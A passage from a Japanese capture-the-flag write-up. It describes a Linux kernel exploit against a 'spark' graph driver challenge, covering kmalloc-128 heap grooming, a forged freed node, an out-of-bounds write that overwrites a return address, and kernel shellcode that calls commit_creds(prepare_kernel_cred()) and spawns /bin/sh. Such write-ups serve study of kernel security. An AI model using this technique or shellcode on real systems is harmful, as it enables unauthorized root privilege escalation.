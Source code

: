 ## 目的のノードを取得する
ということで、最初に`kfree`した`fd[0].private_data`を取得するには、CPU専属スラブを`fd[0]`をcloseした時のスラブに戻す必要がある。この時、どれだけ`kmem_cache_alloc_trace()`を呼び出せば良いのかという問題がある。というのも、kernelでは実行が切り替えられ色々なパスが実行されるため、exploitの実行中にheapが利用され、現在のheapの状況が変わってしまうと考えられるからである。
結論から言うと、今回は`kmem_cache_alloc_trace()`する回数は完全に固定値で良かった。というのも、`kmalloc-128`を使うパスにブレイクを張ってexploitを動かしたところ、このexploit以外には全く`kmalloc-128`が使われていなかった。即ち、exploitでいじった以外にheapがいじられることはなかったため、heapの状態は完全に既知としてよかった。これが何故なのかは、正直分かっていない。直感的には`kmalloc-128`を使うパスがexploitの途中で実行されてしまうような気がするが...。単にこのキャッシュが人気無いだけなのか、本問だけのなんか特殊な感じの理由があるのか。誰か知ってる方居たら教えてください...。
なにはともあれ、この前提のもとでは`fd[0]`をkfreeした時のスラブがCPU専属になり、且つ`fd[0]`が`freelist`の根っこに繋がるまで`kmalloc`を繰り返せば良い。この0x12回という回数だが、try&errorでこうなった(厳密には、上述のPoCに書いてあったからGDBで確かめたら確かにそうなっていた)。なんかすんなりと求められる方法を知っているひとが居たら(以下略。
これで`fd[0]`を取得したら、元`fd[0]`の中身を任意の値にforgeすることができる。

# ノードの偽装
これで、vuln2を利用してkernheapを始点とするOOB(W)ができる。このとき、書き込むoffsetは`node_struct.finalized_idx`によって操作でき、書き込む値はリンクの`weight`によって操作できる。そのためには始点となる`distance` arrayを既知のアドレスに取得する(kmalloc)必要がある。これも、先程までと同じ考え方ができるようにリンクするノード数を工夫して、`distance` arrayのサイズが0x80となるように工夫する。その結果、#GPFでleakしたR11がそのまま`distance` arrayのアドレスとなるようにする。

# kernel shellcode
このoverwriteは`spark_graph_query()`によって行われる。最初の#GPFでkernstackはleakしているため、この関数のスタックフレーム内のretaddrを書き換えればRIPを取ることができる。SMEP/SMAP無効のため、ユーザランドにおいておいたシェルコードで`commit_creds(prepare_kernel_cred())`をすれば終わり。この2つの関数のアドレスは、シェルコードをに飛んだ時のスタックに積んであるアドレスを利用する。
```shellcode_nirugiri.c
void NIRUGIRI(void)
{
  char *argv[] = {"/bin/sh",NULL};
  char *envp[] = {NULL};
  execve("/bin/sh",argv,envp);
}

static void shellcode(void){
  asm(
    "xor rdi, rdi\n"
    "mov rbx, QWORD PTR [rsp+0x50]\n"
    "sub rbx, 0x244566\n"
    "mov rcx, rbx\n"
    "call rcx\n"
    "mov rdi, rax\n"
    "sub rbx, 0x470\n"
    "call rbx\n"
    "add rsp, 0x20\n"
    "pop rbx\n"
    "pop r12\n"
    "pop r13\n"
    "pop r14\n"
    "pop r15\n"
    "pop rbp\n"
    "ret\n"
  );
}
```
